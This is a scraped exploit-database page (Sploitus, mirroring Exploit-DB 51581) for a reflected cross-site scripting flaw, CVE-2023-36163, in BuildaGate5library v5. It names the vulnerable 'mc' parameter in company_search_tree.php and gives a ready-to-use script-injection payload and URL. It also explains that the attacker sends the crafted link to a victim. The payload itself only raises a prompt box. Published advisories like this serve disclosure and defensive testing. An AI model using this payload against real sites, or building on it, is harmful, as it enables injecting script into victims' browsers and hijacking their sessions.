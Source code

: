 ```yaml
---
title: BuildaGate5library v5 - Reflected Cross-Site Scripting (XSS) exploit
url: https://sploitus.com/exploit?id=EDB-ID:51581&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-12
fetch_date: 2025-10-04T11:54:06.121822
---
```


# BuildaGate5library v5 - Reflected Cross-Site Scripting (XSS) exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for BuildaGate5library v5 - Reflected Cross-Site Scripting (XSS) CVE-2023-36163

2023-07-11 | CVSS 6.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51581
# Exploit Title: BuildaGate5library v5 - Reflected Cross-Site Scripting (XSS)
# Date: 06/07/2023
# Exploit Author: Idan Malihi
# Vendor Homepage: None
# Version: 5
# Tested on: Microsoft Windows 10 Pro
# CVE : CVE-2023-36163

#PoC:
An attacker just needs to find the vulnerable parameter (mc=) and inject the JS code like:
'><script>prompt("XSS");</script><div id="aa

After that, the attacker needs to send the full URL with the JS code to the victim and inject their browser.

#Payload:
company_search_tree.php?mc=aaa'><script>prompt("XSS");</script><div id="aaaa
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)